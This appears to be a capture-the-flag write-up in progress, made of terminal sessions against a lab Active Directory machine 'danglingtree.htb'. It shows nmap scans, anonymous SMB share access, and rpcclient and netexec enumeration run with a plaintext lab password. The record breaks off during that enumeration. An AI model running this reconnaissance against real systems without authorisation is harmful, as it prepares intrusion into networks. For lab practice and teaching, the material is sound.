








``` bash

❯ recon 10.129.80.127
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-25 01:25 +0200
Nmap scan report for 10.129.80.127
Host is up (0.036s latency).
Not shown: 65510 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
6600/tcp  open  mshvlm
9389/tcp  open  adws
49664/tcp open  unknown
49677/tcp open  unknown
49679/tcp open  unknown
49681/tcp open  unknown
49682/tcp open  unknown
49693/tcp open  unknown
49708/tcp open  unknown
49722/tcp open  unknown
49771/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.92 seconds
[*] First script done
[*] Open ports = '53,80,88,135,139,389,443,445,464,593,636,3268,3269,3389,6600,9389,49664,49677,49679,49681,49682,49693,49708,49722,49771'
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-25 01:26 +0200
Nmap scan report for 10.129.80.127
Host is up (0.038s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-25 06:25:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.danglingtree.htb, DNS:danglingtree.htb, DNS:DANGLINGTREE
| Not valid before: 2026-08-03T16:32:53
|_Not valid after:  2106-08-03T16:32:53
443/tcp   open  ssl/https?
| tls-alpn:
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=danglingtree-DC-CA
| Not valid before: 2026-03-26T05:34:19
|_Not valid after:  2114-03-26T05:44:18
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.danglingtree.htb, DNS:danglingtree.htb, DNS:DANGLINGTREE
| Not valid before: 2026-08-03T16:32:53
|_Not valid after:  2106-08-03T16:32:53
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.danglingtree.htb, DNS:danglingtree.htb, DNS:DANGLINGTREE
| Not valid before: 2026-08-03T16:32:53
|_Not valid after:  2106-08-03T16:32:53
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc.danglingtree.htb, DNS:danglingtree.htb, DNS:DANGLINGTREE
| Not valid before: 2026-08-03T16:32:53
|_Not valid after:  2106-08-03T16:32:53
3389/tcp  open  ms-wbt-server
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info:
|   Target_Name: DANGLINGTREE
|   NetBIOS_Domain_Name: DANGLINGTREE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: danglingtree.htb
|   DNS_Computer_Name: dc.danglingtree.htb
|   DNS_Tree_Name: danglingtree.htb
|   Product_Version: 10.0.26100
|_  System_Time: 2026-08-25T06:27:11+00:00
| ssl-cert: Subject: commonName=dc.danglingtree.htb
| Not valid before: 2026-08-24T06:18:49
|_Not valid after:  2027-02-23T06:18:49
6600/tcp  open  ssl/mshvlm?
| tls-alpn:
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.danglingtree.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.danglingtree.htb
| Not valid before: 2026-03-26T05:41:20
|_Not valid after:  2027-03-26T05:41:20
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 403 Forbidden
|     Connection: close
|     Date: Tue, 25 Aug 2026 06:25:48 GMT
|     Cache-Control: no-store
|     Cache-Control: max-age=0
|     Pragma: no-cache
|     Set-Cookie: .AspNetCore.Antiforgery.7Eyhia2WOxE=CfDJ8HsozULo80ZBsxvkNAKguomH23UVdad5h8GKNqVw5xY4mztJZwpMkqspxQYBAdl1CrTGsvEHVFW0rLdG7467wFytC0Mz61LDlepGp-QlAGPs3ayA_FZTgfOSB-QwpR1A_SP0P8vuIPg-o7MXbqQ37O8; path=/; secure; samesite=none; Partitioned
|     Set-Cookie: WAC-SESSION=1b9ed195453c4c5f81b6640ba0d1e96d; expires=Wed, 26 Aug 2026 06:25:48 GMT; path=/; secure; samesite=lax; httponly
|     Set-Cookie: WAC-TOKEN=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
|     Set-Cookie: WAC-AAD=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
|     Set-Cookie: XSRF-TOKEN=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
|     Strict-Transport-Security: max-age=5184000; includeSubDomains; preload
|     <!DOCTYPE html>
|     <html lang="en" xmlns="http://www.w3.org/1999/xhtml">
|     <head
|   HTTPOptions:
|     HTTP/1.1 403 Forbidden
|     Connection: close
|     Date: Tue, 25 Aug 2026 06:25:48 GMT
|     Cache-Control: no-store
|     Cache-Control: max-age=0
|     Pragma: no-cache
|     Set-Cookie: .AspNetCore.Antiforgery.7Eyhia2WOxE=CfDJ8HsozULo80ZBsxvkNAKguonsq_NqZnGV0-vJLxmH0J5BzIF_5CiMqccl9Dhp8pb8VJZ1XRvGf9mRguiyjgJswULUKMTSkUOWW0ouCv95aGu7VkLdcjl0lgaAGm2gZzn5QF1YYcWEZzp5JOClTlj5i30; path=/; secure; samesite=none; Partitioned
|     Set-Cookie: WAC-SESSION=95f7c0c0f6e34cbc870b2f17a0d9cfa0; expires=Wed, 26 Aug 2026 06:25:48 GMT; path=/; secure; samesite=lax; httponly
|     Set-Cookie: WAC-TOKEN=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
|     Set-Cookie: WAC-AAD=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
|     Set-Cookie: XSRF-TOKEN=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
|     Strict-Transport-Security: max-age=5184000; includeSubDomains; preload
|     <!DOCTYPE html>
|     <html lang="en" xmlns="http://www.w3.org/1999/xhtml">
|_    <head
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49693/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49722/tcp open  msrpc         Microsoft Windows RPC
49771/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3389-TCP:V=7.98%I=7%D=8/25%Time=6A8CD322%P=x86_64-pc-linux-gnu%r(Te
SF:rminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\?\x08\0\x02\
SF:0\0\0");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port6600-TCP:V=7.98%T=SSL%I=7%D=8/25%Time=6A8CD32E%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,1000,"HTTP/1\.1\x20403\x20Forbidden\r\nConnection:\x20cl
SF:ose\r\nDate:\x20Tue,\x2025\x20Aug\x202026\x2006:25:48\x20GMT\r\nCache-C
SF:ontrol:\x20no-store\r\nCache-Control:\x20max-age=0\r\nPragma:\x20no-cac
SF:he\r\nSet-Cookie:\x20\.AspNetCore\.Antiforgery\.7Eyhia2WOxE=CfDJ8HsozUL
SF:o80ZBsxvkNAKguomH23UVdad5h8GKNqVw5xY4mztJZwpMkqspxQYBAdl1CrTGsvEHVFW0rL
SF:dG7467wFytC0Mz61LDlepGp-QlAGPs3ayA_FZTgfOSB-QwpR1A_SP0P8vuIPg-o7MXbqQ37
SF:O8;\x20path=/;\x20secure;\x20samesite=none;\x20Partitioned\r\nSet-Cooki
SF:e:\x20WAC-SESSION=1b9ed195453c4c5f81b6640ba0d1e96d;\x20expires=Wed,\x20
SF:26\x20Aug\x202026\x2006:25:48\x20GMT;\x20path=/;\x20secure;\x20samesite
SF:=lax;\x20httponly\r\nSet-Cookie:\x20WAC-TOKEN=;\x20expires=Thu,\x2001\x
SF:20Jan\x201970\x2000:00:00\x20GMT;\x20path=/\r\nSet-Cookie:\x20WAC-AAD=;
SF:\x20expires=Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT;\x20path=/\r\n
SF:Set-Cookie:\x20XSRF-TOKEN=;\x20expires=Thu,\x2001\x20Jan\x201970\x2000:
SF:00:00\x20GMT;\x20path=/\r\nStrict-Transport-Security:\x20max-age=518400
SF:0;\x20includeSubDomains;\x20preload\r\n\r\n<!DOCTYPE\x20html>\r\n<html\
SF:x20lang=\"en\"\x20xmlns=\"http://www\.w3\.org/1999/xhtml\">\r\n\r\n<hea
SF:d")%r(HTTPOptions,2000,"HTTP/1\.1\x20403\x20Forbidden\r\nConnection:\x2
SF:0close\r\nDate:\x20Tue,\x2025\x20Aug\x202026\x2006:25:48\x20GMT\r\nCach
SF:e-Control:\x20no-store\r\nCache-Control:\x20max-age=0\r\nPragma:\x20no-
SF:cache\r\nSet-Cookie:\x20\.AspNetCore\.Antiforgery\.7Eyhia2WOxE=CfDJ8Hso
SF:zULo80ZBsxvkNAKguonsq_NqZnGV0-vJLxmH0J5BzIF_5CiMqccl9Dhp8pb8VJZ1XRvGf9m
SF:RguiyjgJswULUKMTSkUOWW0ouCv95aGu7VkLdcjl0lgaAGm2gZzn5QF1YYcWEZzp5JOClTl
SF:j5i30;\x20path=/;\x20secure;\x20samesite=none;\x20Partitioned\r\nSet-Co
SF:okie:\x20WAC-SESSION=95f7c0c0f6e34cbc870b2f17a0d9cfa0;\x20expires=Wed,\
SF:x2026\x20Aug\x202026\x2006:25:48\x20GMT;\x20path=/;\x20secure;\x20sames
SF:ite=lax;\x20httponly\r\nSet-Cookie:\x20WAC-TOKEN=;\x20expires=Thu,\x200
SF:1\x20Jan\x201970\x2000:00:00\x20GMT;\x20path=/\r\nSet-Cookie:\x20WAC-AA
SF:D=;\x20expires=Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT;\x20path=/\
SF:r\nSet-Cookie:\x20XSRF-TOKEN=;\x20expires=Thu,\x2001\x20Jan\x201970\x20
SF:00:00:00\x20GMT;\x20path=/\r\nStrict-Transport-Security:\x20max-age=518
SF:4000;\x20includeSubDomains;\x20preload\r\n\r\n<!DOCTYPE\x20html>\r\n<ht
SF:ml\x20lang=\"en\"\x20xmlns=\"http://www\.w3\.org/1999/xhtml\">\r\n\r\n<
SF:head");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m08s, deviation: 0s, median: 6h59m08s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-08-25T06:27:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 149.09 seconds
[*] Done
╭─ ~/hacking/ctf/htb/medium/danglintree/recon                                                              ✔ │ 3m 2s ─╮
╰─                                                                                                                   ─╯

```
``` bash

❯ echo "10.129.80.127 danglingtree.htb" | sudo tee -a /etc/hosts
[sudo] password for joel:
10.129.80.127 danglingtree.htb
╭─ ~/hacking/ctf/htb/medium/danglintree/recon                                                                 ✔ │ 3s ─╮
╰─                                                                                                                   ─╯

```

``` bash

❯ curl -I 10.129.80.127
HTTP/1.1 200 OK
Content-Length: 703
Content-Type: text/html
Last-Modified: Thu, 26 Mar 2026 05:40:48 GMT
Accept-Ranges: bytes
ETag: "b3b97519e3bcdc1:0"
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET
Date: Tue, 25 Aug 2026 06:38:04 GMT

❯ curl -I https://10.129.80.127 -k
HTTP/2 200
content-length: 703
content-type: text/html
last-modified: Thu, 26 Mar 2026 05:40:48 GMT
accept-ranges: bytes
etag: "b3b97519e3bcdc1:0"
server: Microsoft-IIS/10.0
x-powered-by: ASP.NET
date: Tue, 25 Aug 2026 06:38:07 GMT

❯ curl https://10.129.80.127 -k
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>IIS Windows Server</title>
<style type="text/css">
<!--
body {
        color:#000000;
        background-color:#0072C6;
        margin:0;
}

#container {
        margin-left:auto;
        margin-right:auto;
        text-align:center;
        }

a img {
        border:none;
}

-->
</style>
</head>
<body>
<div id="container">
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"></a>
</div>
</body>
</html>%                                                                                                                ╭─ ~/hacking/ctf/htb/medium/danglintree/recon                                                                      ✔ ─╮
╰─                                                                                                                   ─╯

```

``` bash

❯ smbclient -L //danglingtree.htb -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to danglingtree.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
╭─ ~/hacking/ctf/htb/medium/danglintree/recon                                                                      ✔ ─╮
╰─                                                                                                                   ─╯

```

``` bash

❯ smbclient //danglingtree.htb/NETLOGON -N
do_connect: Connection to dc.danglingtree.htb failed (Error NT_STATUS_UNSUCCESSFUL)
❯ smbclient //danglingtree.htb/SYSVOL -N
do_connect: Connection to dc.danglingtree.htb failed (Error NT_STATUS_UNSUCCESSFUL)
❯ smbclient //danglingtree.htb/IPC$ -N
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> exit
❯ smbclient //danglingtree.htb/C$ -N
tree connect failed: NT_STATUS_ACCESS_DENIED
❯ smbclient //danglingtree.htb/ADMIN$ -N
tree connect failed: NT_STATUS_ACCESS_DENIED
❯ smbclient //danglingtree.htb/IT -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Apr  5 03:05:09 2026
  ..                                  D        0  Sun Apr  5 02:57:30 2026
  Security                            D        0  Sun Apr  5 03:05:20 2026

                7062015 blocks of size 4096. 2261723 blocks available

smb: \> cd Security\
smb: \Security\> dir
  .                                   D        0  Sun Apr  5 03:05:20 2026
  ..                                  D        0  Sun Apr  5 03:05:09 2026
  DanglingTree_RoE_Assessment.pdf      A    28905  Sat Apr  4 17:50:23 2026

                7062015 blocks of size 4096. 2261707 blocks available
smb: \Security\> get DanglingTree_RoE_Assessment.pdf
getting file \Security\DanglingTree_RoE_Assessment.pdf of size 28905 as DanglingTree_RoE_Assessment.pdf (146.3 KiloBytes/sec) (average 146.3 KiloBytes/sec)
smb: \Security\> exit
❯ ls
all_ports.txt  DanglingTree_RoE_Assessment.pdf  version_ports.txt
╭─ ~/hacking/ctf/htb/medium/danglintree/recon                                                                      ✔ ─╮
╰─                                                                                                                   ─╯

```

[PDF](./DanglingTree_RoE_Assessment.pdf)

``` bash

❯ sudo ntpdate 10.129.80.127
2026-08-25 09:16:29.378752 (+0200) +25149.596887 +/- 0.019536 10.129.80.127 s1 no-leap
CLOCK: time stepped by 25149.596887
╭─ ~/hacking/ctf/htb/medium/danglintree/recon                                                         ✔ │ 6h 59m 10s ─╮
╰─                                                                                                                   ─╯

```

``` bash

❯ rpcclient -U 'danglingtree.htb/anderson.w%R3dT3am@Acc3ss#01' 10.129.80.127
rpcclient $> enumdomusers
user:[anderson.w] rid:[0xa29]
rpcclient $> ^C
❯ nxc ldap 10.129.80.127 -d danglingtree.htb -u 'anderson.w' -p 'R3dT3am@Acc3ss#01' --users
